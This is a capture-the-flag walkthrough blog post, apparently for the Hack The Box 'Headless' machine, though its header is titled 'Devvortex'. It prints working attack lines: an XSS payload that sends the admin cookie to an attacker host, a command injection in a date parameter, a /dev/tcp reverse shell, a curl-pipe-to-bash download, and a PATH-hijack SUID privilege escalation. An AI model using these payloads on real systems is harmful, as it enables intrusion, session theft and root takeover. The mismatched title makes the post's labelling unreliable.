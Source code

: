 ```yaml
---
layout: post
section-type: post
has-comments: true
title: Hack The Box - Devvortex
category: tech
tags: ["tutorial"]
---
```


### Reconnaissance and Initial Steps

##### Nmap Results

```
sudo nmap -Pn -sT -sU -sC -sV 10.10.11.242
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/14b8cd55-fcce-42df-bdf6-9d19d99017d7)

We add headless to /etc/hosts with the corresponding ip address given. Then navigate to `http://headless.htb:5000`


```
echo "10.10.11.8 headless.htb" | sudo tee -a /etc/hosts
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/3bd6636f-3891-49d6-988c-f4de867e7ce6)


##### Directory Enumeration

```
dirsearch -u http://headless.htb:5000
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/5a86b5e0-bb85-4ef3-a558-d560c4c57c70)

We can see that there are two pages available; /support and /dashboard. Let’s visit both of them to find our way into the machine.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/a17cd01d-309a-4ee0-baa7-3855e53f86f5)


To access the /dashboard, we either need to be logged in as a user with elevated privileges (admin) (but I don’t see a login page), or we need to trick the server into believing that we are authorized to access the URL. When considering how to trick the server, I think about providing it with either an admin cookie or an admin session ID.


### Getting Foothold on Headless

We need to provide a payload that can capture the cookies of the admin user who will be reviewing our support queries. The payload will look like this:

```
<script>document.location='http://<Your_Kali_IP>/?cookie='+document.cookie</script>
```

Additionally, we can URL encode this payload by pressing `Ctrl + u`. Along with this payload, we also need to start an HTTP server using the following command:

```
python3 -m http.server 80
```

At this stage, we need to test the XSS payload across all parameters present in the POST request, including message, email, User-Agent, and others. After testing, we'll discover that the same payload must be inserted into two specific parameters: message and User-Agent."

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/dbd01369-141b-45f5-b0d8-884309419e76)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/43e14dec-7e38-4660-9a73-7d54d846e2ca)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cf518852-8d03-4af4-8e68-00115aa9f45b)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/d3dc3504-3fc2-4b05-89f2-d868462ee8d3)

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/39e1ead3-99a7-4407-9864-7b7cd0760252)

After waiting for a minute, we can see that we have received the admin user's cookie. Now, we can add this cookie value to our browser using the inspect element feature or cookie editor add-on.

Navigate to `http://headless.htb:5000/dashboard` to access the Administrator Dashboard. Here, you'll encounter an option to generate the website's health report for a specific date. Let's intercept this request via Burp Suite and transfer another POST request to the repeater tool.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/1ccfa512-d5e0-4659-a0a0-714eba2024b7)


Within the body of this request, locate the date parameter. We'll attempt to detect a command injection vulnerability using this parameter by employing the following payload:

```
&& pwd
```
Additionally, we can URL encode this payload by pressing `Ctrl + u`. Now, let's send the request and check the response, where we will find that the date parameter is vulnerable to command injection.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8d80e730-3305-4f7e-b23f-43491f7e8440)

I make a file named `payload.sh` with the following inside it.

```
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.16.18/4444 0>&1'
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/f839669f-b9fe-4b9b-9a63-6856ddb48762)

The IP address should be your IP address, and the port number `/4444` represents the port on which I'm going to open my netcat listener.

```
nc -nlvp 4444
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/8e527634-6ff3-4438-b867-e842a22ac53d)

finally run the Python3 HTTP server to host the file (payload.sh) using the following command

```
python3 -m http.server 8081
```

We want to insert a command that will fetch the payload file we created and run it. Make sure that you have your admin cookie listed in the cookie field. (don't forget `ctrl + u`)

```
curl http://10.10.16.18:8081/payload.sh|bash
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/08581364-7a9a-460a-81f8-4361f07c94d5)


We can see that the payload.sh file is downloaded by the web server and then executed which results in getting a reverse shell on our netcat listener.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/b8328dfb-3cf9-48d3-a726-a77c46c9651e)

get `user.txt`

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/cab10a6a-8533-4e2c-ac9f-b995b150d931)


### Privilege Escalation

Now, let's proceed to gain root access on the target machine. We'll initiate by checking the sudo privileges using the following command:

```
sudo -l
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/e6f89830-4912-4b7b-a2b0-d7f65bc5ab9a)


Upon execution, it's revealed that the `dvir` user possesses permission to execute the `/usr/bin/syschec`k binary as the root user. Let's inspect the contents of this binary.

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/6f9a7877-300c-4df9-a061-daef38545a0a)


We'll discover that there's a bash script named `initdb.sh` that is executed without specifying its full path. Exploiting this vulnerability is straightforward; we create a malicious bash script with the same name. Executing the following commands accomplishes this:

```
echo "chmod u+s /bin/bash" > initdb.sh
```

```
chmod +x initdb.sh
```

Upon executing the `syscheck` binary, our malicious script in the current directory takes precedence. This script assigns the SUID bit of the root user to the /bin/bash file. To witness this in action, we run the command:

```
sudo /usr/bin/syscheck
```

Following this command execution, we proceed to execute `/bin/bash` with the owner's (root) privileges using the command:

```
/bin/bash -p
```

![image](https://github.com/c0d3cr4f73r/c0d3cr4f73r.github.io/assets/66146701/42b97909-aee5-4ae1-a7be-649999bfcd83)

After executing the above command, we'll observe that we have successfully escalated our privileges to the `root` user. Consequently, we can effortlessly access the contents of the `root.txt` file.




